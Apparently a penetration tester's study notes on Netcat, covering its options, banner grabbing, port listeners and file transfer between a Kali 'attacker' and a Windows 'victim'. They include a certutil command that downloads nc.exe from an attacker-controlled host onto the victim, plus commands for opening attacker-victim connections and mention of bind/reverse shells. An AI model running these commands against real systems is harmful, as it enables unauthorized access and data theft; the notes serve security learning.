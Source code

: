 #### Netcat
- Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
- Netcat ia available for Both *NIX and Windows operating systems.consequently making it extremely useful for cross-platform engagements
- Netcat utilize a client-server communication architecture with two modes:
- -  Client mode- Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listen(server)
- -  Server mode - Netcat can be used to listen for connections from clients on a specific port.
- Netcat can be used by    penetration testers to perform the following functionality
- - Banner Grabbing
- - Port Scanning
- - Transferring Files
- - Bind/Reverse Shells

##### Netcat
- nc --help [help manu]
- man nc [ manual page ]
- -v  [verbose mode ]
- -u [for udp port ]
- -n [ do not resolve hostnames via DNS ]
- -e [ executing specific command ]
#### commands 
- nc 10.4.20.244 80 [ banner grabbing ]
- nc -n -v 10.4.20.244 80 [ banner grabbing with verbose mode and do not dns resolve ]
- nc -nvu 10.4.20.244 80 [ for upd port]
#### Connecting with windows machine(victim) via nc
In attacker machine(kali)
- cd /usr/share/windows-binaries
- python -m SimpleHTTPServer 80 [start a python server ]
- ifconfig [ for find the ip address ]


In victim windows machine
- certutil -urlcache -f http://attacker_ip/nc.exe nc.exe

Starting listener in Kali
- nc -nvlp 1234 [ starting listener in attacker machine ]
- nc.exe -nv attacker_ip 1234 [starting a client in windows machine ]
- now we can transfer message from both sides


Starting listener in windows
- nc.exe -nvlp 1234 [starting windows machine]
- nc -nv victim_ip(windows) 1234 [starting client in kali ]
#### Sending file
- nc.exe -nvlp 1234 > test.txt [start listening in receiver machine,here it is windows,direction simple means save the file send as test.txt]
- nc -nv listener_machine_ip 1234 < test.txt [send the test.txt file ]
- we can see the listening machine received the file.



#### note
- /usr/share/windows-binaries [ windows binaries file,here we will find nc.exe file for windows ]
